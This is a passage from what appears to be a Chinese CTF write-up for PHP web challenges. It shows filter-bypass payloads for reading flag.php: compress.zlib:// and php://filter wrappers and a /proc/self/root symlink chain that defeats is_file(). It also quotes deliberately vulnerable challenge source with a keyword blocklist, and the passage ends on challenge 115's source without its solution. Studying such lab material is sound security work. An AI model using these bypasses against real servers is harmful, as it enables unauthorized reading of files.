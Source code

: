 过滤了filter，不过`compress.zlib://flag.php`依然可用

[WMCTF2020 PHP source analysis (frankli.site)](https://blog.frankli.site/2020/08/05/Security/php-src/WMCTF2020-PHP-source-analysis/)



预期解是：

> **在linux中/proc/self/root是指向根目录的，也就是如果在命令行中输入ls /proc/self/root，其实显示的内容是根目录下的内容.**
>
> 那么超过20次的软连接后就会造成目录溢出，和is_file()能处理的长度有关
> 从而绕过is_file，而highlight_file可以识别

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

## 114-同112

```php
function filter($file){
   		  			      if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```

压缩包和root也都被过滤了，不过filter放出来了

```
php://filter/resource=flag.php
```

## 115-综合绕过

```php
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
}
```